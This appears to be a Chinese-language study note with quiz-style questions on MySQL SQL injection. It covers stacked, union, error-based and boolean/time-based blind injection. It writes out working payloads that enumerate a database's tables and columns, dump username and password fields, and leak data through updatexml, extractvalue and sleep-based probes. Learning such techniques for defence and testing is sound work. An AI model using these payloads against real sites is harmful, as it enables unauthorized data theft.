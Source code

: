 #### SQL注入类型

1、堆叠查询：是指可以在单次数据库连接中，执行多个查询序列。简单的来说就是执行多条语句。

2、union联合查询：

![image-20220314160224692](https://bao-1309906221.cos.ap-nanjing.myqcloud.com/20220314160224.png)

**MySQL类型的sql注入联合查询注入查出school数据库中student表中username和age字段数据的流程是什么(提供详细的查询语句)？** 

```
-1’ union select 1,2,3--+      //查看回显
-1’ union select 1,2,database()--+   //获取数据库名为school
-1’ union select 1,2, group_concat(table_name) from information_schema.tables where table_schema="school"--+       //获取school数据库下的数据表
-1’ union select 1,2, group_concat(column_name) from information_schema.columns where table_name="student"--+       //获取student数据表中的字段值
-1’ union select 1,2, concat_ws(char(32,58,32),username,password) from student--+  //查询student数据表中username和password的值
```

3、报错注入：利用页面返回的MySQL报错信息，将想得到的数据通过报错信息带出。

Updatexml、extractvalue、rand()等

```
select 1 and updatexml(1,concat(0x7e,(select user()),0x7e),1);
select 1 and extractvalue(1,concat(0x7e,(select user()),0x7e));
```

4、盲注：当不能直接通过显示数据来获得数据库数据时，需要使用其他方式判断或者尝试，这个过程就是盲注。

基于布尔盲注(根据页面返回内容判断)

----------left函数：left(a,b)从a的左侧截取a的前b位正确返回1，错误返回0。

```
 select 1 and left(database(),1)='s';
```

----------substr函数：select database() substr(1,1),substr(a,b,c)从b截取a的c位长度

```
select substr((select username from users limit 0,1),1,1);
```

----------ascii: ascii('s')获取s的ascii值

```
select ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))<68; 
```

基于时间盲注(根据页面响应时间判断)

```
select if((ascii(substr((select username from users limit 0,1),1,1))=68),sleep(5),2);
```

**简述sql注入中联合查询和盲注有什么区别、盲注分为哪几种类型?**
